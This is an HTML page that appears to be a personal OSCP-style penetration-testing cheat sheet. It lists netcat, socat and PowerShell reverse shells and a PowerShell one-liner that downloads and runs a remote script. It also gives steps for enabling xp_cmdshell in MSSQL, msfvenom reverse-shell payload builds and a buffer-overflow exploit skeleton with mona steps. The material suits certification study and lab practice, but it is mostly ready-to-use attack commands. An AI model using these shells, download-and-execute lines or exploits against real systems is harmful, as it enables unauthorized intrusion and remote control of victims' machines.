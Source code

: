<h1>General Reference list (Incomplete)</h1>
<h4>I will add to this more as have more time/h4>

<h3>#search for public exploits</h3> 

<p>Searchsploit
Google
github</p>

<h3>#Serve content<h3/>
 
<p>python3 -m http.server 80
 python2 -m SimpleHTTPServer 80</p>
 
<h3>#Linux download commands</h3> 
<p>wget 
curl
w3m
elinks</p>

<h3>#windows download commands</h3>
<p>certutil.exe -urlcache -f http://serverip/port</p>

<h3>#spawn tty shells</h3>

<p>python -c 'import pty; pty.spawn("/bin/sh")'
python -c 'import pty; pty.spawn("/bin/bash")'
echo os.system('/bin/bash')
/bin/sh -i
perl —e 'exec "/bin/sh";'
perl: exec "/bin/sh";
ruby: exec "/bin/sh"
lua: os.execute('/bin/sh')
exec "/bin/sh"
in vi editor - :!bash 
in vi editor - :set shell=/bin/bash:shell
in nmap - !sh
socat file:`tty`,raw,echo=0 tcp-listen:666
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:xxx.xxx.xxx.xxx:666
nc -lnvp 666 #listener
nc ip port –e /bin/bash #reverse shell netcat needs to be upgraded with above shells. </p>

<h3>#Linux permission search</h3>
<p>find /usr/bin/ -perm -u=s # set uids 

find / -writable -type d 2>/dev/null # world-writeable folders
find / -perm -777 -type d 2>/dev/null # world-writeable folders

find / -perm -o w -type d 2>/dev/null # world-writeable folders

find / -perm -o x -type d 2>/dev/null # world-executable folders

find / \( -perm -o w -perm -o x \) -type d 2>/dev/null # world-writeable & executable folder</p>


<h3>#communicate with msssql</h3>

<p>#basic mysql stuff to login and database 
mysql -u <username> -p <password;
show databases;
use <table>;
show tables;
select * from <table>;

sqsh

xpcmdshell #is what you want to use in mssql with sqsh to get a command shell. If you dont have permission and its misconfigured, this is how you get a shell in sql. 
1> xp_cmdshell 'whoami';
2> go
Msg 15281, Level 16, State 1 error so we enable since we are sa account

1> EXEC sp_configure 'show advanced options', 1;
2> go
Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE
statement to install.
(return status = 0)
1> RECONFIGURE; 
2> go
1> EXEC sp_configure 'xp_cmdshell', 1;
2> go
Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to
install.
(return status = 0)
1> RECONFIGURE;
2> go

1> xp_cmdshell 'whoami';
2> go
</p>

<h3>#windows powershell Reverse shell and powershell command to download and run as soon as its done downloading the file and to run the function in it.</h3>

<p>powershell.exe','-NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "&{$client = New-Object System.Net.Sockets.TCPClient(\"iptoconnectto\",port);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + \"PS \" + (pwd).Path + \"^> \";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()}"'
powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "iex ((New-Object System.Net.WebClient).DownloadString('http://server:port/powershellfile.ps1'));Invoke-functiontocallfromyourps1"</p>



<h3>###########MSF venom###########</h3>
<p>#Format
msfvenom -p <payload> -f <ext> LHOST=<ip> LPORT=<port>

#Always check payload type!!
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=4444 -f exe -o shell.exe

#ALWAYS USE STAGELESS PAYLOADS FOR NC REVERSE SHELL

if !(shell_return){ #if no shell returns arch problem else if shell died payload problem
	arch problem;
elseif (shell_died_instantly)){
	payload problem;
	}	
}

#Staged payload = split into 2 areas, 1st to initiate connection, rest to send actual payload ==> reverse_tcp
#Stageless payload = all in one, suitable for nc listeners bcx it is stable ==> shell_reverse_tcp

msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.95 LPORT=80 -f exe -o shell.exe </p>



<h3>#######################Buffer Overflow section##################</h3>
<p>When you have a server or program that is on your network, and it is vulnerable to buffer overflow bad things happen. 

https://steflan-security.com/complete-guide-to-stack-buffer-overflow-oscp/

#!/usr/bin/python
import socket
import time
import sys
badchars = ("")
filler = "Z" * xxx
eip =  "\x00\x00\x00\x00" 
offset = "x" * xxx
end = "\r\n" #return or enter if needed 
nops = "\x90" * 10

try:
    print "\nThis is my boom stick!"

    inputbuffer = filler
    s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("192.168.0.0", 666))
    s.send(inputbuffer)
    s.close()
    print "derka derka" 

except:
    print "\nSomething Went wrong"
    sys.exit()


find open port and ip 
send string until eip is overflown 
send pattern from msf-pattern_create
send pattern from msf and check offset 
gain control of eip and look for jump in assembly instructions from monamodules (make sure protections arent on in the thingy you find)
find the address for jump and stick in eip 
generate shell code and launch 

msf-pattern_create -l 
msf-pattern_offset -l -q 
!mona modules 
!mona find -s "\x00\x00" -m module </p>

<h3>#######################Links and other section####################</h3>

<p>Tools 
https://github.com/codingo/Reconnoitre

Upgrading shells
https://netsec.ws/?p=337



https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
https://netsec.ws/?p=337

https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/

JSON token
https://medium.com/dev-bits/a-guide-for-adding-jwt-token-based-authentication-to-your-single-page-nodejs-applications-c403f7cf04f4

https://recipeforroot.com/


Window privesc:-
http://www.fuzzysecurity.com/tutorials/16.html
https://github.com/abatchy17/WindowsExploits
https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_windows.html

https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc     <<warning may have automated exploitation in it.
https://www.roguesecurity.in/2018/12/02/a-guide-for-windows-penetration-testing/
https://xapax.gitbooks.io/security/content/privilege_escalation_windows.html


IMPORTANT****
snapd
https://github.com/initstring/dirty_sock

Breaking restrected shells
https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells </p>


<h3>#####Tools you can use If your doing oscp######</h3>
<p>SUID3NUM 
winpeas 
linpeas < 2.7.0 
lse.sh (google it) 
nmapautomator #If you want automation because it only scans one host i made a suppliment script (https://github.com/pyro0ownz/nmapAutomator)
AutoRecon </p>


<p><b>More to come when i can gather my thoughts and play with some more stuff. Wish you luck and hope this helps!</b></p>

 
